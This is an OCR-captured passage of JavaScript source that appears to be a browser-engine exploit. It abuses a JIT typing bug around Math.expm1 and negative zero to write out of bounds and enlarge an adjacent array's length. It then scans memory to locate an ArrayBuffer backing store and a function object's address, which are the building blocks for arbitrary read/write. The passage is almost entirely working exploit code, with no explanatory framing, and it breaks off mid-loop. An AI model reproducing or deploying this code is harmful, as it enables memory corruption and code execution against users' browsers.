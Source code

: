        var big_arr = [1.1, 1.2];
        var ab = new ArrayBuffer(0x233);
        var data_view = new DataView(ab);
    
        function opt_me(x) {
            var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
            big_arr = [1.1, 1.2];
            ab = new ArrayBuffer(0x233);
            data_view = new DataView(ab);
    
            let obj = {
                a: -0
            };
            let idx = Object.is(Math.expm1(x), obj.a) * 10;
    
            var tmp = f2u(oob_arr[idx])[0];
            oob_arr[idx] = u2f(0x234, tmp);
        }
        for (let a = 0; a < 0x1000; a++)
            opt_me(0);
    
        opt_me(-0);
        var optObj = {
            flag: 0x266,
            funcAddr: opt_me
        };
    
        log("[+] big_arr.length: " + big_arr.length);
    
        if (big_arr.length != 282) {
            log("[-] Can not modify big_arr length !");
            return;
        }
        var backing_store_idx = -1;
        var backing_store_in_hign_mem = false;
        var OptObj_idx = -1;
        var OptObj_idx_in_hign_mem = false;
    
        for (let a = 0; a < 0x100; a++) {
            if (backing_store_idx == -1) {
                if (f2u(big_arr[a])[0] == 0x466) {
                    backing_store_in_hign_mem = true;
                    backing_store_idx = a;
                } else if (f2u(big_arr[a])[1] == 0x466) {
                    backing_store_in_hign_mem = false;
                    backing_store_idx = a + 1;
                }
            }
    
            else if (OptObj_idx == -1) {
                if (f2u(big_arr[a])[0] == 0x4cc) {
                    OptObj_idx_in_hign_mem = true;
                    OptObj_idx = a;
                } else if (f2u(big_arr[a])[1] == 0x4cc) {
                    OptObj_idx_in_hign_mem = false;
                    OptObj_idx = a + 1;
                }
            }
    